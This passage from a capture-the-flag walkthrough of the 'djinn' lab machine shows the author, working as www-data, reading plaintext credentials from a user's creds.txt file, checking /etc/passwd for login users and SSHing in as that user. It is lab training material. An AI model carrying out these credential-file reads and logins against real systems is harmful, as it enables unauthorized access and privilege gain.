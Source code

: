 ```python
        page = request.args.get('name')
    else:
        page = "It's not that hard"

    return render_template('genie.html', file=page)


if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=True)

```
The list of blacklisted creds can be seen here. Also there is a creds.txt file defined.
```bash
www-data@djinn:/opt/80$ cat /home/nitish/.dev/creds.txt
nitish:p4ssw0rdStr3r0n9
```
The creds are `nitish:p4ssw0rdStr3r0n9`

Does nitish exist on the machine as a user?
```bash
www-data@djinn:/opt/80$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
sam:x:1000:1000:sam,,,:/home/sam:/bin/bash
nitish:x:1001:1001::/home/nitish:/bin/bash
```
Yes.

### 9. Login as nitish
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ ssh nitish@192.168.34.154                                                                                                                                                                                                                                                                      130 ⨯
nitish@192.168.34.154's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-66-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

257 packages can be updated.
203 updates are security updates.


Last login: Thu Nov 14 20:32:20 2019 from 192.168.1.107
nitish@djinn:~$ id
uid=1001(nitish) gid=1001(nitish) groups=1001(nitish)
```
